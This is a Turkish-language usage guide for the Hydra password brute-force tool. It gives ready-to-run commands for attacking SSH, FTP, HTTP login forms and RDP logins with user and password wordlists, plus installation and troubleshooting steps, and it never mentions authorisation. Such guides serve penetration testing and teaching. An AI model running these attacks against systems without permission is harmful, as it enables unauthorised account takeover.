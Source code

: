 # Hydra Kullanım Rehberi

Bu rehber, popüler bir brute-force aracı olan **Hydra**'nın temel kullanımını ve komutlarını açıklamak için hazırlanmıştır. Hydra, farklı protokoller üzerinde oturum açma işlemlerini test etmek için çok yönlü ve güçlü bir araçtır.

---

## Hydra Nedir?
Hydra, çoklu protokol desteği sunarak hızlı ve etkin brute-force saldırıları gerçekleştirmek için tasarlanmış bir araçtır. SSH, FTP, HTTP, RDP gibi birçok servisi destekler.

---

## Kurulum

Hydra'yı kurmak için aşağıdaki adımları izleyebilirsiniz:

### 1. Debian/Ubuntu:
```bash
sudo apt update && sudo apt install hydra
```

### 2. Red Hat/CentOS:
```bash
sudo yum install hydra
```

### 3. Kaynaktan Kurulum:
```bash
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra
./configure
make
sudo make install
```

### Kurulum Doğrulama:
Kurulumun başarılı olup olmadığını kontrol etmek için:
```bash
hydra -h
```

---

## Hydra Kullanımı

Hydra, aşağıdaki formatta çalışır:
```bash
hydra -L <KULLANICI_LISTESİ> -P <PAROLA_LISTESİ> -s <PORT> -t <THREAD_SAYISI> <HEDEF_IP> <PROTOKOL>
```

### 1. Temel Komut Örneği
Bir SSH servisini hedef alarak kullanıcı adı ve parola brute-force işlemi:
```bash
hydra -L users.txt -P passwords.txt -s 22 -t 4 192.168.1.10 ssh
```

- **`-L users.txt`**: Kullanıcı listesi.
- **`-P passwords.txt`**: Parola listesi.
- **`-s 22`**: Hedef port.
- **`-t 4`**: Aynı anda çalışacak thread sayısı.
- **`192.168.1.10`**: Hedef IP adresi.
- **`ssh`**: Hedef protokol.

---

### 2. HTTP Brute-Force
Bir web uygulamasına brute-force saldırısı:
```bash
hydra -L users.txt -P passwords.txt -s 80 192.168.1.10 http-post-form "/login:username=^USER^&password=^PASS^:F=Hatalı giriş"
```

- **`/login`**: Giriş sayfasının yolu.
- **`username=^USER^&password=^PASS^`**: Form parametreleri.
- **`F=Hatalı giriş`**: Hatalı giriş mesajı (örneğin: "Invalid login").

---

### 3. FTP Brute-Force
Bir FTP servisini brute-force ile hedeflemek için:
```bash
hydra -L users.txt -P passwords.txt -s 21 -t 8 192.168.1.10 ftp
```

---

### 4. RDP (Remote Desktop Protocol)
Bir Windows sisteminde RDP brute-force saldırısı:
```bash
hydra -L users.txt -P passwords.txt -t 4 192.168.1.10 rdp
```

---

### 5. Tüm Hedeflere Aynı Parola (Password Spray)
Bir parola listesini tüm kullanıcılar üzerinde test etmek:
```bash
hydra -l admin -P passwords.txt -t 8 192.168.1.10 ssh
```

- **`-l admin`**: Tek bir kullanıcı adı için brute-force.
- **`-P passwords.txt`**: Parola listesi.

---

## Örnek Protokoller
Hydra'nın desteklediği yaygın protokoller:

| Protokol | Açıklama               |
|----------|-----------------------|
| ssh      | SSH bağlantısı        |
| ftp      | FTP bağlantısı        |
| http-get | HTTP GET istekleri    |
| http-post| HTTP POST formları    |
| rdp      | RDP bağlantısı        |
| smb      | SMB dosya paylaşımı   |

Hydra'nın desteklediği tüm protokolleri görmek için:
```bash
hydra -U
```

---

## Çıktıları Kaydetme
Hydra çıktısını bir dosyaya kaydetmek için `-o` parametresini kullanabilirsiniz:
```bash
hydra -L users.txt -P passwords.txt -t 4 192.168.1.10 ssh -o results.txt
```

---

## Hata Giderme

- **Hata:** "Restorefile found, continuing session"
  - Çözüm: Önceki oturumu temizlemek için:
    ```bash
    rm -f ./hydra.restore
    ```

- **Hata:** "Too many connection errors"
  - Çözüm: Thread sayısını azaltarak deneyin:
    ```bash
    hydra -L users.txt -P passwords.txt -t 2 192.168.1.10 ssh
    ```

- **Hata:** "Connection refused"
  - Çözüm: Hedef servisin açık olduğundan emin olun ve doğru portu kullanın:
    ```bash
    nmap -p <PORT> <HEDEF_IP>
    ```

---

## Ek Kaynaklar
- [Hydra Resmi GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Hydra Kullanım Belgeleri](https://tools.kali.org/password-attacks/hydra)

---

Bu rehber, Hydra aracı ile temel brute-force saldırıları gerçekleştirmenize yardımcı olmak için hazırlanmıştır. Daha fazla bilgi ve gelişmiş kullanım senaryoları için resmi belgelere göz atabilirsiniz.
